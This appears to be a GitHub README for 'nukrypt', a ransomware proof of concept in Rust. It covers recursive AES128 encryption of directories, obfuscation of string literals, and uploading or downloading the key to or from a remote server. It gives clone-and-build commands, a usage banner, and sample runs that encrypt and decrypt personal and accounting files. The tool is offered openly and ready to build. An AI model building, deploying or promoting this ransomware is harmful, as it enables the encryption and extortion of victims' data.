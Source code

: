 nukrypt
=======
A ransomware PoC written in Rust. `nukrypt` will recursively traverse all directories given to it as CLI arguments and encrypt files using AES128. The 128-bit key can either be generated at runtime or read/downloaded from an existing file/URL. The AES IV is written to the beginning of each encrypted file. Encrypted files are suffixed with `.nukrypt`.


Features
--------
- AES128
- Literal encryption using [litcrypt](https://docs.rs/litcrypt/latest/litcrypt/)
- Download or upload AES key from a remote server.
- Some safeguards to prevent unintended data loss.


Compilation
-----------
- Simply `git clone` the repository and `cargo build` the project:
```
$ git clone https://github.com/hiatus/nukrypt
$ cd nukrypt
$ cargo build --release
```


Usage
-----
- Command line banner:
```
USAGE:
    nukrypt [FLAGS] [OPTIONS] <dir>...

FLAGS:
    -d, --decrypt    Decrypt instead of encrypting
    -h, --help       Prints help information
    -V, --version    Prints version information

OPTIONS:
    -k, --key-file <file|url>    Read/write AES key from/to [file] or download/upload from/to [url]

ARGS:
    <dir>...    Folder(s) to recursively encrypt or decrypt
```

### Encrypt
In encryption mode (not specifying the `-d` option), `nukrypt` will first attempt to read the key either from a remote server or from a local file (depending on what was given as argument to `-k`). If the key cannot be read, it will generate it and either upload it or save it locally (in the URL or path given). After this, all `dir`s will be recursively encrypted.

```
$ nukrypt -k nukrypt.key ./encrypt-me/
[+] Encryption key written to nukrypt.key

[#] Encrypting: ./encrypt-me/notes.txt
[#] Encrypting: ./encrypt-me/project/curriculum.pdf
[#] Encrypting: ./encrypt-me/project/accounting.xlsx

[+] 3 files encrypted in 0.002 seconds
```

### Decrypt
When called with option `-d`, `nukrypt` will attempt to read the key either from a remote server or from a local file and recursively decrypt all `dir`s.
```
$ nukrypt -dk nukrypt.key ./encrypt-me/
[+] AES key read from nukrypt.key

[#] Decrypting: ./encrypt-me/notes.txt.nukrypt
[#] Decrypting: ./encrypt-me/project/curriculum.pdf.nukrypt
[#] Decrypting: ./encrypt-me/project/accounting.xlsx.nukrypt

[+] 3 files decrypted in 0.000 seconds
```

